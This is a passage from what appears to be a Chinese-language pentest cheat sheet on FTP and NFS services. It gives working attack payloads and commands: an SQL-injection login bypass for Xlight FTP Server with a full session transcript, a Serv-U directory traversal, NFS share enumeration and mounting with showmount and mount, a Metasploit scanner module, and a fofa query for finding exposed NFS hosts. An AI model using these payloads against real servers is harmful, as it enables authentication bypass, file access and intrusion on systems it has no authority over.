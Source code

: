 **相关文章**
- [云服务器ftp被动和主动模式都连接失败](https://mp.weixin.qq.com/s/ogy7RuJpfABpdf4CHc3imA)

**Xlight FTP Server < 3.2.1 user 参数 SQL 注入漏洞**
- 简介

    在执行 ODBC 认证过程中 Xlight FTP Server 没有正确地过滤用户所提交的用户名和口令字段,远程攻击者可以用"OR ‘1’=’1’ ;#"替换用户名绕过认证登录到服务器.

- POC | Payload | exp
    ```bash
    220 Xlight FTP Server 3.2 ready...
    User (server-4:(none)) : \' OR \'1\'=\'1\' ;#
    331 Password required for \' OR \'1\'=\'1\' ;#
    Password : type anything
    230 Login OK
    ftp&gt;
    ```

**Serv-U FTP Server 目录遍历漏洞**
- 相关文章
    - [Serv-U FTP Server 0day漏洞分析报告](http://safe.it168.com/a2011/1213/1287/000001287577.shtml)

- POC | Payload | exp
    ```bash
    ls ../windwos
        550 .....

    ls ..:/windows
        150 ....
        ...
        ...
    ```

## NFS

> fofa : protocol="nfs"

**相关文章**
- [针对NFS的渗透测试](https://www.freebuf.com/articles/network/159468.html)

**CVE-1999-0554 目标主机 showmount -e 信息泄露**
- POC | Payload | exp
    ```bash
    showmount -e <目标ip>
    mount -t nfs <目标ip>:/opt/applications/xxx_static_data  /mnt
    ```

- MSF 模块
    ```bash
    use auxiliary/scanner/nfs/nfsmount
    set rhosts <目标ip>
    run
    ```

---
